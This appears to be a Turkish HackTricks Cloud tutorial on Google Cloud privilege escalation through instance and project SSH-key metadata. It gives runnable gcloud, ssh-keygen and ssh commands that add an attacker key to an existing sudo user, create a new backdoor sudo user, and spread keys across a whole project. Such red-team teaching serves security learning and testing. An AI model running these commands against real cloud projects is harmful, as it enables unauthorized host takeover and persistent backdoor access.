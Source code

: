 # GCP - Özel SSH Metadata Ekleme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Metadata'yi Düzenleme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örneğin metadata'sını değiştirmek, **saldırganın gerekli izinleri elde etmesi durumunda ciddi güvenlik risklerine yol açabilir**.

### **Özel Metadata'ya SSH Anahtarlarının Eklenmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Konuk Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) tarafından betikleri çalıştırır. Bu işlemin kritik bir bileşeni, [hesaplar daemonu](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dir, bu da **yetkilendirilmiş SSH genel anahtarlarında güncellemeleri düzenli olarak kontrol etmek** için örnek metadata uç noktasını kontrol eder.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebiliyorsa, daemonun yeni bir genel anahtar bulmasını sağlayabilir, bu da işlenecek ve **yerel sisteme entegre edilecektir**. Anahtar, mevcut bir kullanıcının `~/.ssh/authorized_keys` dosyasına eklenir veya anahtarın biçimine bağlı olarak `sudo` ayrıcalıklarına sahip yeni bir kullanıcı oluşturabilir. Ve saldırgan, ana bilgisayarı ele geçirebilir.

### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı eklemek**

1. **Örnekteki SSH Anahtarlarını İnceleyin:**
- Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını açıklamak için komutu çalıştırın. İlgili bölüm, `metadata` altında, özellikle `ssh-keys` anahtarının altında olacaktır.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH anahtarlarının biçimine dikkat edin: kullanıcı adı, iki nokta üst üste kullanılarak ayrılmıştır.

2. **SSH Anahtar Metadata'sı için Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adlarının ayrıntılarını ve bunlara karşılık gelen SSH anahtarlarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, yeni eklenen anahtarları eklerken mevcut anahtarları korumak için önemlidir.

3. **Hedef Kullanıcı İçin Yeni Bir SSH Anahtarı Oluşturun (`alice` örneğinde):**
- Hedef kullanıcı adıyla eşleşen bir yorum alanına (`-C`) sahip yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Yeni genel anahtarı, örneğin metadata'sında bulunan formata benzeyerek `meta.txt`'ye ekleyin.

4. **Örneğin SSH Anahtar Metadata'sını Güncelleyin:**
- Güncellenmiş SSH anahtar metadata'sını örneğe `gcloud compute instances add-metadata` komutunu kullanarak uygulayın.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı Kullanarak Örneğe Erişin:**
- Yeni anahtarı kullanarak örneğe SSH ile bağlanın ve hedef kullanıcının bağlamında kabuğa erişin (`alice` örneğinde).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Yeni ayrıcalıklı bir kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturulabilir:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Proje Düzeyinde SSH Anahtarları <a href="#sshing-around" id="sshing-around"></a>

Bulut ortamında **proje düzeyinde SSH erişimini genişletmek** mümkündür. Bu yaklaşım, proje genelinde SSH anahtarlarını uygulayarak projenin içindeki herhangi bir örneğe SSH erişimine izin verir. İşte özetlenmiş bir rehber:

1. **Proje Düzeyinde SSH Anahtarları Uygulama:**
- `gcloud compute project-info add-metadata` komutunu kullanarak `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine ekleyin. Bu işlem, SSH anahtarlarının projedeki tüm VM'lerde tanınmasını sağlar, bir VM'in "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmediği sürece.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genelinde Anahtarlar Kullanarak Örneklerde SSH Yapma:**
- Proje genelinde SSH anahtarları mevcut olduğunda, projenin içindeki herhangi bir örneğe SSH yapabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişime izin verecektir.
- Bir örneğe doğrudan SSH yapmanın bir yolu, `gcloud compute ssh [ÖRNEK]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve projenin düzeyinde ayarlanmış SSH anahtarlarını kullanarak erişim denemek için kullanılır.


# Referanslar
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
